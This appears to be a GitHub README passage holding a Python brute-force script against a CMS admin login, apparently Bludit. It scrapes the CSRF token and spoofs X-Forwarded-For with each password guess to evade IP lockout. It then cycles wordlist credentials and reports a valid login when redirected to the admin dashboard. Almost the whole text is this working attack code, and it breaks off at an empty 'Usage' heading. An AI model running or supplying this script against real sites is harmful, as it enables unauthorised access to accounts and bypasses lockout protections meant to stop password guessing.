 ```python
    process = log.progress('Brute Force')

#Getting CSRF token value
    CSRF = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)
    CSRF = CSRF.group(1)

#Specifying Headers Value
    headerscontent = {
    'User-Agent' : 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Referer' : f"{LoginPage}",
    'X-Forwarded-For' : f"{Password}"
    }

#POST REQ data
    postreqcontent = {
    'tokenCSRF' : f"{CSRF}",
    'username' : f"{Username}",
    'password' : f"{Password}"
    }

#Sending POST REQ
    r = session.post(LoginPage, data = postreqcontent, headers = headerscontent, allow_redirects= False)

#Printing Username:Password
    process.status('Testing -> {U}:{P}'.format(U = Username, P = Password))

#Conditional loops
    if 'Location' in r.headers:
        if "/admin/dashboard" in r.headers['Location']:
            print()
            log.info(f'SUCCESS !!')
            log.success(f"Use Credential -> {Username}:{Password}")
            sys.exit(0)
    elif "has been blocked" in r.text:
        log.failure(f"{Password} - Word BLOCKED")

#Reading User.txt & Pass.txt files
userfile = open(Username_list).readlines()
for Username in userfile:
    Username = Username.strip()

passfile = open(Password_list).readlines()
for Password in passfile:
    Password = Password.strip()
    login(Username,Password)
```

#### Usage
